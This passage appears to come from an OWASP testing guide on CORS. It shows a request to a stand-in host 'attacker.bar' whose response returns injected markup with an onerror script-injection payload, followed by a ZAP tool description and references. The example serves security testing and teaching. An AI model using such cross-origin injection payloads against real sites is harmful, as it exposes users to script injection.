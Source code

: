 Request and response generated by this URL:

    GET http://attacker.bar/file.php HTTP/1.1
    Host: attacker.bar
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Referer: http://example.foo/main.php
    Origin: http://example.foo
    Connection: keep-alive

    HTTP/1.1 200 OK
    Date: Mon, 07 Oct 2013 19:00:32 GMT
    Server: Apache/2.2.22 (Debian)
    X-Powered-By: PHP/5.4.4-14+deb7u3
    Access-Control-Allow-Origin: *
    Vary: Accept-Encoding
    Content-Length: 92
    Keep-Alive: timeout=15, max=100
    Connection: Keep-Alive
    Content-Type: text/html

    Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)"> 

![](CORS-example.png "fig:CORS-example.png")\
\
==Tools==

-   **OWASP Zed Attack Proxy (ZAP)** - <https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project>

ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

References
----------

**OWASP Resources**

-   '''OWASP HTML5 Security Cheat Sheet: <https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet>

**Whitepapers**\
\***W3C** - CORS W3C Specification: <http://www.w3.org/TR/cors/>

